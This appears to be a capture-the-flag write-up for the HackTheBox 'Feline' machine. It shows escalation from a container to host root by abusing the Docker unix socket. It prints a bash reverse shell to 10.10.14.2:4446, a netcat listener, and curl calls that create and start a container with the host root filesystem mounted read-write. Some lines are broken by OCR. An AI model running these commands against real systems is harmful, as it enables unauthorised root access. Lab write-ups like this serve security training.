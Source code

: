 ```yaml
---
description: Interact with host machine via docker socket
---
```


# Feline HTB

**This list mentions about adding SaltStack support to control Docker through events. If we search for Docker events in the SaltStack documentation, we come across this page. We also see a cURL command inside the .bash\_history of root.**

**According to the SaltStack documentation, it uses the Docker unix socket in order to interact with the Docker API that is running on the host machine. Let's try to list available images using the Docker socket.**

**The command executed successfully, which confirms that we are able to interact with the Docker service running on the host machine. We can create a new Docker container and mount /of the host machine to /mnt/and execute a system command. First, let's create the reverse shell command for the container to execute.**

```
cat todo.txt
```

* Add saltstack support to auto-spawn sandbox dockers through events.
* Integrate changes to tomcat and make the service open to public.

```
engines:
docker_events:
docker_url: unix://var/run/docker.sock
filters:
event:
start
stop
die
oom
```

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```
["/bin/sh","-c","chroot /mnt sh -c \"bash -c 'bash -i>&/dev/tcp/10.10.14.2/
0>&1'\""]
```

**We are creating a JSON array and executing reverse shell inside the host machine, and need to**

**escape shell characters. First, execute the command below on the remote machine, assigning the command to the cmd variable.**

**Next, stand up another Netcat listener locally, and then issue command below on the remote machine to create a container that uses the reverse shell payload. This successfully created a Docker container. However, it won't do anything unless we start it, so let's do that next.**

**Upon creating the container, Docker API will return a container ID as the result. Now we can start the container using this ID (replace the existing ID below), which will execute our command.**

```
cmd="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -
i>&/dev/tcp/10.10.14.2/4446 0>&1'\\\"\"]"
```

```
nc -lvnp 4446
```

```
curl -s -XPOST --unix-socket /var/run/docker.sock -d "
{\"Image\":\"sandbox\",\"cmd\":$cmd, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-
Type: application/json' http://localhost/containers/create
```

```
curl -s -XPOST --unix-socket /var/run/docker.sock
http://localhost/containers/fa5ab671afd818ac6a47e02a60b4d1a8fb8eaa156608a582dbe
7a693c603ecb/start
```
